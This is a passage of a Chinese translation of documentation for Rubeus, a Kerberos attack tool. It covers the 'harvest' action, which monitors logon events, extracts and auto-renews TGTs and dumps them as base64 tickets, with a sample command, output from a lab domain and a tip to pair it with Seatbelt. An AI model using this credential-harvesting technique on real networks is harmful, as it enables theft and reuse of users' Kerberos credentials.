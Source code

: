 **注意此操作需要运行于管理员权限！**

### <a class="reference-link" name="harvest"></a>harvest

**harvest** 操作比 monitor 操作更进一步。它将持续地监视登陆日志中的4624事件，每间隔 **/interval:MIMUTES** 指定的时间，就针对新的登录事件，进行新的 TGT KRB-CRED 文件的提取，并将提取的 TGT 进行缓存。在 **/interval** 指定的时间间隔内，任何将在下一个时间间隔到期的 TGT 都将被自动续订（直到他们的续订期限），并且当前缓存的可用 / 有效的 TGT KRB-CRED .kirbis 文件将以 base64 编码的 blob 数据格式输出。

这就允许你在不用打开 LSASS 进程的读取句柄的情况下，收集系统中的可用 TGT。但是记住，提取票据的操作需要管理员权限。

```
c:Rubeus&gt;Rubeus.exe harvest /interval:30

   ______        _
  (_____       | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ | ___ | | | |/___)
  | |   | |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v0.0.1a

[*] Action: TGT Harvesting (w/ auto-renewal)

[*] Monitoring every 30 minutes for 4624 logon events

...(snip)...

[*] Renewing TGT for dfm.a@TESTLAB.LOCAL
[*] Connecting to 192.168.52.100:88
[*] Sent 1520 bytes
[*] Received 1549 bytes

[*] 9/17/2018 6:43:02 AM - Current usable TGTs:

User                  :  dfm.a@TESTLAB.LOCAL
StartTime             :  9/17/2018 6:43:02 AM
EndTime               :  9/17/2018 11:43:02 AM
RenewTill             :  9/24/2018 2:07:48 AM
Flags                 :  name_canonicalize, renewable, forwarded, forwardable
Base64EncodedTicket   :

    doIFujCCBbagAw...(snip)...
```

**注意此操作需要运行于管理员权限！**

此功能可以和 [Seatbelt](https://github.com/GhostPack/Seatbelt) 的 **4624Events** 功能完美配合， **4624Events** 将解析最近七天内的4624登录事件，如果其中有感兴趣的用户以特定登陆类型定期进行认证的话，就会有可收集的 Kerberos TGT，**harvest** 功能可以帮你获取这些凭证。

### <a class="reference-link" name="Wrapup"></a>Wrapup

这个项目凝聚了血汗和泪水（Kerberos相关部分带来的），现在我怀着激动的心情将它交给攻击专家们。希望我们都开始拥抱 Kekeo 的强大功能，即使它是另外一个项目。

注意，此代码还是beta版，它已经在有限的环境中进行了测试，但我确信肯定还存在很多 bug 和问题。：）
